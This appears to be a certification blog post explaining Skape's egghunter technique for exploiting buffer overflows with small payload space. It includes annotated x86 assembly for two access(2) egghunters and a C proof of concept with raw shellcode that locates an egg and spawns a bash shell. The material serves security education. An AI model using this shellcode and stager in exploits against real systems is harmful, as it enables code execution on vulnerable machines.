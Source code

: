 _This blog post has been created for completing the requirements of the
SecurityTube Linux Assembly Expert certification:_  
_ __<http://securitytube-training.com/online-courses/securitytube-linux-
assembly-expert/>_  
_ __**Student ID:** SLAE-885_  
_**Assignment number: **3_  
_**Github repo:** <https://github.com/abatchy17/SLAE>_  
  
_Note: Pretty much the entire post is extracted from Skape's paper, it's
extremely well-written and is a must read. _  

## What is an egghunter?

  
Assume you found a buffer overflow vulnerability with a very small space that
you control that is less than that of a bind/reverse shell, how can you
utilize this space? The following concept is discussed in depth by Skape in
[Safely Searching Process Virtual Address
Space](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf) where the
actual payload is marked by an "egg" (usually 4-8 bytes that are very unlikely
to be found in memory) and the small controllable space contains an
"egghunter" which will search for that egg in the virtual address space.  
  
Skape discussed 3 different implementations for Linux, I implemented both
access(2) and access(2) revised.  
  

## What are the requirements of an egg hunter?

1\. Small size: Since the main reason an egg hunter is needed is that we're
tight on space, the smaller the shellcode is, the better. This is achieved by
writing a very optimized shellcode.  
  
2\. Robustness: It should be able to scan the entire virtual space fast
without failing on unallocated memory. This is achieved through multiple
methods on Linux, discussed below.  
  
If you directly try to read an unallocated memory in Linux, program will throw
a SIGSEGV and crash. Instead, Skape recommended an out of the box suggestion,
which is abusing the access() syscall.  
  
  

    
    
    int access(const char *pathname, int mode);  
    

  
Passing an address instead of pathname will check if the memory is allocated,
if not it won't throw a SIGSEGV, allowing us to scan the memory safely.  
  
One more thing is that we need to make sure that the egg hunter won't
ultimately point at itself, that's why the code will check the presence of the
egg twice in a row before concluding that this is our payload.  

## How does the egg hunter work?

**Method 1:** access(2)  
  

    
    
    ;   Skape's egghunter: access(2)  
    ; 
    
    
     
    
    
    global _start:  
      
    section .text  
      
    _start:  
        mov ebx, 0x50905090     ; Store EGG in ebx  
        xor ecx, ecx            ; Zero out ECX  
        mul ecx                 ; Zero out EAX and EDX  
    IncPage:                    ; JMP to increment page number  
        or dx, 0xfff            ; Align page address  
    IncAddr:                    ; JMP to increment address  
        inc edx                 ; Go to next address  
        pushad                  ; Push general registers onto stack  
        lea ebx, [edx+4]        ; [edx+4] so we can compare [edx] and [edx+4] at the same time  
        mov al, 0x21            ; syscall for access()  
        int 0x80                ; call access() to check memory location [EBX]  
        cmp al, 0xf2            ; Did it return EFAULT?  
        popad                   ; Restore registers  
        jz IncPage              ; access() returned EFAULT, skip page  
        cmp [edx], ebx          ; initialized memory, check if EGG is in [edx]  
        jnz IncAddr             ; EGG isn't in [edx], visit next address  
        cmp [edx+4], ebx        ; EGG is found in [edx], is it in [edx+4] too?  
        jne IncAddr             ; Boohoo! It wasn't. Visit next address  
        jmp edx                 ; [edx][edx+4] contain EGGEGG, we found our shellcode! Execute meaningless EGGEGG instructions then our payload  
    

  
**Method 2:** access(2) revised  
  

    
    
    ;   Skape's egghunter: access(2) revised  
    ;  
      
    global _start  
      
    section .text  
      
    _start:  
        xor edx, edx            ; EDX = 0  
    IncPage:  
        or dx, 0xfff            ; Align page address  
    IncAddr:  
        inc edx                 ; Go to next address  
        lea ebx, [edx+0x4]      ; [edx+4] so we can compare [edx] and [edx+4] at the same time  
        push byte 0x21          ; syscall for access()  
        pop eax  
        int 0x80                ; call access() to check memory location [EBX]  
        cmp al, 0xf2            ; Did it return EFAULT?  
        jz IncPage              ; It did, skip page  
        mov eax, 0x50905090     ; Store EGG in EAX  
        mov edi, edx            ; Move EDX to EDI for scasd operation  
        scasd                   ; Check if [EDI] == EAX then increment EDI  
        jnz IncAddr             ; It isn't, increment address  
        scasd                   ; Check if [EDI] == EAX then increment EDI  
        jnz IncAddr             ; It isn't, increment address  
        jmp edi                 ; We found our Egg! JMP to EDI, which points directly to our shellcode  
    

  

## Proof of concept

  
  

    
    
    /*  
     egghunter.c  
     By Abatchy  
     gcc egghunter.c -fno-stack-protector -z execstack -o shellcode.out  
    */  
      
    #include <stdio.h>  
    #include <string.h>  
      
    #define EGG "\x90\x50\x90\x50"  
      
    // Spawns a bash shell  
    unsigned char secret[] = EGG EGG  
    "\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";  
      
    // Skape's egghunter: access(2)  
    unsigned char egghunter1[] =   
    "\xbb"  
    EGG  
    "\x31\xc9"  
    "\xf7\xe1"  
    "\x66\x81\xca\xff\x0f"  
    "\x42"  
    "\x60"  
    "\x8d\x5a\x04"  
    "\xb0\x21"  
    "\xcd\x80"  
    "\x3c\xf2"  
    "\x61"  
    "\x74\xed"  
    "\x39\x1a"  
    "\x75\xee"  
    "\x39\x5a\x04"  
    "\x75\xe9"  
    "\xff\xe2";  
      
    // Skape's egghunter: access(2) revised  
    unsigned char egghunter2[] =   
    "\x31\xd2"  
    "\x66\x81\xca\xff\x0f"  
    "\x42"  
    "\x8d\x5a\x04"  
    "\x6a\x21"  
    "\x58"  
    "\xcd\x80"  
    "\x3c\xf2"  
    "\x74\xee"  
    "\xb8" EGG  
    "\x89\xd7"  
    "\xaf"  
    "\x75\xe9"  
    "\xaf"  
    "\x75\xe6"  
    "\xff\xe7";  
      
    int main()  
    {  
        printf("Egg is at %p\n", secret);  
        printf("Egghunter size: %d\n", strlen(egghunter1));  
        int (*ret)() = (int(*)())egghunter1;  
        ret();  
    }  
    

  
Successfully running this code will search for the EGG in the memory and
execute the payload, throwing a bash shell. Using **strace ./program** is a
nice way to check if it's searching memory properly, or attaching GDB.  
  
\- Abatchy

